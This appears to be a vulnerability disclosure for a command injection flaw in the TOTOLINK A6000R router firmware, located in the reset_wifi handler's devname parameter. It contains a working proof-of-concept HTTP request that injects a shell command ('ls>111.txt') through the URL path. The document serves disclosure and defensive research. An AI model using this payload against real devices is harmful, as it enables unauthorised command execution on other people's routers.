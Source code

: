 # TOTOLINK A6000R V1.0.1-B20201211.2000 Command Injection (reset_wifi)

## Product Information

- Device: TOTOlink A6000R
- Firmware Version: V1.0.1-B20201211.2000
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `reset_wifi` function via the `devname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/reset/arg`

![](./3.png)



## Payload

We can trigger this vulnerability by injecting the `ls>111.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/reset/;ls>111.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.187.136/cgi-bin/luci/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=5b0f9d6a8f10ef78682c48b9f6ceb12f
```

![](./4.png)



After the injection, we can verify the result.

![](./5.png)

